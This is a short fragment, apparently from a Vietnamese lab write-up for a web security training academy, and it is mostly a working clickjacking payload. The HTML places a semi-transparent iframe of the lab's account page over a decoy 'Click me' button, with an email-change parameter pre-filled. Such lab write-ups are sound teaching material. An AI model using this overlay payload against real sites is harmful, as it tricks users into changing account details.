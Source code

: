 ![Alt text](../image/lab2/03.png)

Thực hiện thêm `HTML` và lưu trữ trên `Exploit-server`

```
<style>
    iframe {
        position: relative;
        width: 800px;
        height: 500px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 448px;
        left: 60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0ab6003c049c20c580d912c600c20019.web-security-academy.net/my-account?email=test2@test"></iframe>
```
